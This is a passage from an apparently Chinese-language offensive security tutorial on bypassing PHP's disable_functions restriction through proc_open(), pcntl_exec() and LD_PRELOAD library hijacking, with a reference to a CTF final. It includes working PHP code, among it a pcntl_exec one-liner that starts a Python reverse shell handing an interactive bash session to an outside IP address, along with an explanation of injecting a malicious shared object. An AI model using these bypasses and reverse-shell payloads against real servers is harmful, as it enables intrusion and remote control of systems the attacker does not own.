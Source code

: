 •proc_open()

```
<?php$command="ipconfig";$descriptorspec = array(1 => array("pipe", "w"));$handle = proc_open($command ,$descriptorspec , $pipes);while(!feof($pipes[1])){         echo fread($pipes[1], 1024); //fgets($pipes[1],1024);}?>
```

还有一个比较常见的易被忽略的函数就是 pcntl_exec。

利用 pcntl_exec
-------------

**使用条件：**

•PHP 安装并启用了 pcntl 插件

pcntl 是 linux 下的一个扩展，可以支持 php 的多线程操作。很多时候会碰到禁用 exec 函数的情况，但如果运维人员安全意识不强或对 PHP 不甚了解，则很有可能忽略 pcntl 扩展的相关函数。

pcntl_exec() 是 pcntl 插件专有的命令执行函数来执行系统命令函数，可以在当前进程空间执行指定的程序。

利用 pcntl_exec() 执行 test.sh：

```
<?phpif(function_exists('pcntl_exec')) {   pcntl_exec("/bin/bash", array("/tmp/test.sh"));} else {       echo 'pcntl extension is not support!';}?>
```

由于 pcntl_exec() 执行命令是没有回显的，所以其常与 python 结合来反弹 shell：

```
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```

[第四届 “蓝帽杯” 决赛]php 这道题利用的就是这个点。

利用 LD_PRELOAD 环境变量
------------------

### 原理简述

LD_PRELOAD 是 Linux 系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的攻击目的。

我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

想要利用 LD_PRELOAD 环境变量绕过 disable_functions 需要注意以下几点：

• 能够上传自己的. so 文件 • 能够控制 LD_PRELOAD 环境变量的值，比如 putenv() 函数 • 因为新进程启动将加载 LD_PRELOAD 中的. so 文件，所以要存在可以控制 PHP 启动外部程序的函数并能执行，比如 mail()、imap_mail()、mb_send_mail() 和 error_log() 函数等

一般而言，利用漏洞控制 web 启动新进程 a.bin（即便进程名无法让我随意指定），新进程 a.bin 内部调用系统函数 b()，b() 位于 系统共享对象 c.so 中，所以系统为该进程加载共享对象 c.so，想办法在加载 c.so 前优先加载可控的 c_evil.so，c_evil.so 内含与 b() 同名的恶意函数，由于 c_evil.so 优先级较高，所以，a.bin 将调用到 c_evil.so 内的 b() 而非系统的 c.so 内 b()，同时，c_evil.so 可控，达到执行恶意代码的目的。基于这一思路，常见突破 disable_functions 限制执行操作系统命令的方式为：
